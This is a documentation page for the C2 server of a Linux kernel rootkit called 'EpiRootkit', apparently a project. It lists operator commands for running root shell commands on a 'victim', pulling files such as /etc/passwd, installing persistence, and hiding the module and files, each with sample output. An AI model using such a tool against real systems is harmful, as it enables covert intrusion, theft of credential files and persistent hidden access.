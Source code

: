 ```yaml
---
title: "Command Reference"
description: "Complete reference for all C2 server commands"
icon: "terminal"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 303
---
```


# Command Reference

Complete reference for all C2 server commands.

## Command List

| Command | Description | Auth Required |
|---------|-------------|---------------|
| `clients, ls` | List connected clients | No |
| `auth <client> <password>` | Authenticate with client | No |
| `exec <client> <command>` | Execute shell commands | Yes |
| `upload <client> <local> [remote]` | Upload files to victim | Yes |
| `download <client> <remote> [local]` | Download files from victim | Yes |
| `status <client>` | Get rootkit status | Yes |
| `keepalive <client>` | Check connection status | Yes |
| `persist <client> [action]` | Manage persistence | Yes |
| `config <client>` | Interactive configuration | Yes |

## Client Management

### List Clients
```bash
ls               # List all connected clients
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
# • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM


```

### Authentication
```bash
auth Client-1 password     # Authenticate with client
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful

auth Client-1 wrongpass    # Wrong password
# ERROR: Authentication failed
```

**Security Features:**
- SHA-512 password hashing
- Rate limiting (5 attempts/60 seconds)
- Session timeout (1 hour)

## Command Execution

```bash
exec Client-1 whoami
exec Client-1 uname -a
exec Client-1 ps aux | head -5
```

**Features:**
- Root privileges execution
- Full stdout/stderr capture
- Exit code display
- Real-time output

## File Transfer

```bash
# Upload files
upload Client-1 ./file.txt /tmp/file.txt    # Upload to specific path
upload Client-1 ./script.sh                 # Upload to current directory

# Download files
download Client-1 /etc/passwd ./passwd      # Download to specific path
download Client-1 /etc/hostname             # Download to current directory
```

**Features:**
- Base64 encoding
- Path validation
- Binary/text file support
- Automatic path resolution

## System Information

### Status Check
```bash
status Client-1
# EpiRootkit Status:
# Version: 1.0.0
# Authentication: YES
# Connection: CONNECTED
# Module Hidden: YES
# File Hiding: YES
# Persistence: ENABLED
```

### Connection Check
```bash
keepalive Client-1
# Keepalive Status:
# Last ping: 2025-05-25 16:14:00
# Last pong: 2025-05-25 16:14:00
# Failed pings: 0
# Connection: STABLE
```

## Persistence Management

```bash
persist Client-1 install    # Install all mechanisms
persist Client-1 remove     # Remove all mechanisms
persist Client-1 modules    # modules-load.d only
```

## Configuration

### Interactive Config
```bash
config Client-1
# ┌─ Configuration - Client-1
#   Current Configuration:
#   [X] Module Hiding (Click to disable)
#   [X] File Hiding (Click to disable)
#   [X] Persistence (Click to disable)
#   
# ? Select option: [Use arrow keys]
```
**Available Settings:**
- Module hiding toggle
- File hiding toggle
- Persistence management
- Connection parameters

### Direct Commands
```bash
hide_module Client-1      # Hide rootkit module
unhide_module Client-1    # Show rootkit module
hide_files Client-1       # Enable file hiding
unhide_files Client-1     # Disable file hiding
```

## Error Handling

For detailed usage examples, see [Usage Guide](./usage.md).